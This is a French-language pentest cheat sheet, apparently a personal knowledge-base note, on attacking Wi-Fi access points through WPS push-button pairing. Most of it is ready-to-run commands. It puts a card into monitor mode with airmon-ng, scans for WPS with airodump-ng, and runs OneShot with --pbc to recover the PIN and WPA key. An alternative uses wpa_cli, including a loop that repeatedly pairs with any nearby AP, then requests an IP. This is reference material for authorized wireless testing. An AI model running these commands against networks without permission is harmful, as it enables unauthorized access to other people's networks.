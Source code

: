
Consiste à appuyer sur le bouton WPS pour s'appairer avec l'AP.


Avec [[#OneShot]]
Avec [[#WPA_CLI]]

# OneShot

https://github.com/fulvius31/OneShot

> [!TIP]
> Permet de récupérer la PIN et donc la clé WPA par la suite

## 1. Passer en mode monitor

```shell-session
sudo airmon-ng start wlan0
```

```shell-session
iwconfig
```

## 2. Scan WPS networks

Capturer le trafic et afficher les information WPS

```shell-session
sudo airodump-ng --wps --ignore-negative-one wlan0mon
```

## 3. PBC Attack

avec OneShot

```shell-session
sudo python3 /opt/OneShot/oneshot.py -i wlan0mon --pbc
```


---

# WPA_CLI

> [!TIP]
> Appairage simple avec l'AP. Ne nécessite pas le mode monitor.


## 1. Scanner les réseaux

```shell-session
iwlist wlan0 scan |  grep 'Cell\|Quality\|ESSID\|IEEE'
```

## 2. Appairage avec l'AP

1. Après avoir appuyé sur le bouton PBC.

```shell-session
sudo wpa_cli wps_pbc <BSSID>
```

ou boucle while pour s'appairer avec n'importe quel AP.

```
while: ; do sudo wpa_cli wps_pbc any ; sleep 120 ; done
```

2. Vérifier la connexion à l'AP

```shell-session
sudo systemctl status wpa_supplicant
```

3. Demander une IP

```shell-session
sudo dhclient wlan0
```

```shell-session
ifconfig
```